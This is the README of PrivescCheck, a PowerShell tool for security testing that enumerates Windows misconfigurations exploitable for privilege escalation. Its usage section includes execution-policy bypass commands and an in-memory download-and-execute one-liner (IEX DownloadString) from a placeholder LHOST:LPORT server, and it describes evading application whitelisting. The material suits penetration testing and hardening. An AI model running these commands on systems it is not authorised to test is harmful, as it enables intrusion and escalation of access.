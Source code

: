 # PrivescCheck

This script aims to __enumerate common Windows security misconfigurations__ that can be leveraged for privilege escalation. It's still under development. I plan on adding more features in the future. Feedback is appreciated so ping me [@itm4n](https://twitter.com/itm4n).


## Usage 

Use the script from a PowerShell prompt.
```
PS C:\Temp\> Set-ExecutionPolicy Bypass -Scope Process -Force 
PS C:\Temp\> . .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck 
```

Use the script from a CMD prompt.
```
C:\Temp\>powershell -ep bypass -c ". .\Invoke-PrivescCheck.ps1; Invoke-PrivescCheck"
```

Import the script from a web server.
```
C:\Temp\>powershell "IEX (New-Object Net.WebClient).DownloadString('http://LHOST:LPORT/Invoke-PrivescCheck.ps1'; Invoke-PrivescCheck" 
```

## Tests

I test my script on various platforms:

- Windows 10 64-bits  
- Windows 10 Insider Preview 64-bits  
- Windows Server 2012 R2 64-bits   
- Windows 7 64-bits   
- Windows 7 32-bits   

Nevertheless, there may still be some bugs that trigger on some specific configurations. 


## Yet another Windows Privilege escalation tool, why?

I really like [PowerUp](https://github.com/HarmJ0y/PowerUp) because it can enumerate common vulnerabilities very quickly and without using any third-party tools. The problem is that it hasn't been updated for several years now. The other issue I spotted quite a few times over the years is that it sometimes returns false positives which are quite confusing.

Other tools exist on GitHub but they are __not as complete__ or they have __too many dependencies__. For example, they rely on WMI calls or other command outputs.

Therefore, I decided to make my own script with the following constraints in mind:

- __It must not use third-party tools__ such as `accesschk.exe` from SysInternals.

- __It must not use built-in Windows commands__ such as `whoami.exe` or `netstat.exe`. The reason for this is that I want my script to be able to run in environments where AppLocker (or any other Application Whitelisting solution) is enforced.

- __It must not use built-in Windows tools__ such as `sc.exe` or `tasklist.exe` because you'll often get an __Access denied__ error if you try to use them on __Windows Server 2016/2019__ for instance.

- __It must not use WMI__ because its usage can be restricted to admin-only users.  

- Last but not least, it must be compatible with __PowerShell Version 2__. 


## Addressing all the constraints...

- __Third-party tools__

I have no merit, I reused some of the code made by [@harmj0y](https://twitter.com/harmj0y) and [@mattifestation](https://twitter.com/mattifestation). Indeed, PowerUp has a very powerfull function called `Get-ModifiablePath` which checks the ACL of a given file path to see if the current user has write permissions on the file or folder. I modified this function a bit to avoid some false positives though. Before that a service command line argument such as `/svc`could be identified as a vulnerable path because it was interpreted as `C:\svc`. My other contribution is that I made a _registry-compatible_ version of this function (`Get-ModifiableRegistryPath`).  

- __Windows built-in windows commands/tools__

When possible, I naturally replaced them with built-in PowerShell commands such as `Get-Process`. In other cases, such as `netstat.exe`, you won't get as much information as you would with basic PowerShell commands. For example, with PowerShell, TCP/UDP listeners can easily be listed but there is no easy way to get the associated Process ID. In this case, I had to invoke Windows API functions.

- __WMI__

You can get a looooot of information through WMI, that's great! But, if you face a properly hardened machine, the access to this interface will be restricted. So, I had to find workarounds. And here comes the __Registry__! Common checks are based on some registry keys but it has a lot more to offer. The best example is services. You can get all the information you need about every single service (except their current state obviously) simply by browsing the registry. This is a huge advantage compared to `sc.exe` or `Get-Service` which depend on the access to the __Service Control Manager__. 

- __PowerShellv2 support__

This wasn't that easy because newer version of PowerShell have very convenient functions or options. For example, the `Get-LocalGroup`function doesn't exist and `Get-ChildItem` doesn't have the `-Recurse` option in PowerShellv2. So, you have to work your way around each one of these small but time-consuming issues. 


## Features 

### Current User 

```
Invoke-UserCheck - Gets the usernane and SID of the current user
Invoke-UserGroupsCheck - Enumerates groups the current user belongs to except default and low-privileged ones
Invoke-UserPrivilegesCheck - Enumerates the high potential privileges of the current user's token
```

### Services

```
Invoke-InstalledServicesCheck - Enumerates non-default services
Invoke-ServicesPermissionsCheck - Enumerates the services the current can modify through the service control manager
Invoke-ServicesPermissionsRegistryCheck - Enumerates services that can be modified in the registry
Invoke-ServicesImagePermissionsCheck - Enumerates all the services that have a modifiable binary (or argument)
Invoke-ServicesUnquotedPathCheck - Enumerates services with an unquoted path that can be exploited
```

### Dll Hijacking

```
Invoke-DllHijackingCheck - Checks whether any of the system path folders is modifiable
```

### Sensitive Files

```
Invoke-SamBackupFilesCheck - Checks common locations for the SAM/SYSTEM backup files
```

### Programs

```
Invoke-InstalledProgramsCheck - Enumerates the applications that are not installed by default
Invoke-ModifiableProgramsCheck - Enumerates applications which have a modifiable EXE of DLL file
Invoke-RunningProcessCheck - Enumerates the running processes
```

### Credentials

```
Invoke-WinlogonCheck - Checks credentials stored in the Winlogon registry key
Invoke-CredentialFilesCheck - List the Credential files that are stored in the current user AppData folders
```

### Registry

```
Invoke-UacCheck - Checks whether UAC (User Access Control) is enabled
Invoke-LapsCheck - Checks whether LAPS (Local Admin Password Solution) is enabled
Invoke-PowershellTranscriptionCheck - Checks whether PowerShell Transcription is configured/enabled
Invoke-RegistryAlwaysInstallElevatedCheck - Checks whether the AlwaysInstallElevated key is set in the registry
```

### Network

```
Invoke-TcpEndpointsCheck - Enumerates unusual TCP endpoints on the local machine (IPv4 and IPv6)
Invoke-UdpEndpointsCheck - Enumerates unusual UDP endpoints on the local machine (IPv4 and IPv6)
```

### Misc

```
Invoke-WindowsUpdateCheck - Checks the last update time of the machine
Invoke-SystemInfoCheck - Gets the name of the operating system and the full version string
Invoke-LocalAdminGroupCheck - Enumerates the members of the default local admin group
Invoke-MachineRoleCheck - Gets the role of the machine (workstation, server, domain controller)
Invoke-SystemStartupHistoryCheck - Gets a list of system startup events 
Invoke-SystemStartupCheck - Gets the last system startup time
Invoke-SystemDrivesCheck - Gets a list of local drives and network shares that are currently mapped
```

